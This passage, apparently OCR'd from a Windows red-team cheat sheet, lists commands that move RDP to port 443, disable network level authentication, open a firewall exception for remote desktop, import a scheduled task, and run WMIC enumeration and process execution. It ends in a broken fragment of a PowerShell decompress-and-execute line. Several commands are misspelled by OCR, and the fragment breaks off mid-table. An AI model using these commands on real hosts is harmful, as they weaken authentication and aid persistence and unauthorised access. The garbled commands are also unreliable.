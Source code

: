 ```text
REG ADD "HKLt1\System\CurrentControlSet\Control \Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f 
```

### Disable network level authentication, add firewall exception

```text
reg add "HKEY LOCAL t1ACHINE\SYSTEt1\CurentControlSet\Control \Terminal
Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f 

netsh firewall set service type = remotedesktop mode = enable 
```

### Import a schedule task from an "exported task" XML

```text
schtasks.exe /create /tn t1yTask /xml "C:\MyTask.xml" /f
```

## WMIC

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>Command</b>
      </th>
      <th style="text-align:left"><b>Description</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">wmic [alias] get /?</td>
      <td style="text-align:left">List all attributes</td>
    </tr>
    <tr>
      <td style="text-align:left">wmic [alias] call /?</td>
      <td style="text-align:left">Callable methods</td>
    </tr>
    <tr>
      <td style="text-align:left">wmic process list full</td>
      <td style="text-align:left">Process attributes</td>
    </tr>
    <tr>
      <td style="text-align:left">wmic startupwmic service</td>
      <td style="text-align:left">Starts wmic service</td>
    </tr>
    <tr>
      <td style="text-align:left">wmic ntdomain list</td>
      <td style="text-align:left">Domain and DC info</td>
    </tr>
    <tr>
      <td style="text-align:left">wmic qfe</td>
      <td style="text-align:left">List all patches</td>
    </tr>
    <tr>
      <td style="text-align:left">wrnic process call create &quot;process_name&quot;</td>
      <td style="text-align:left">Execute process</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>wmic process where name=&quot;process&quot; call</p>
        <p>terminate</p>

[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"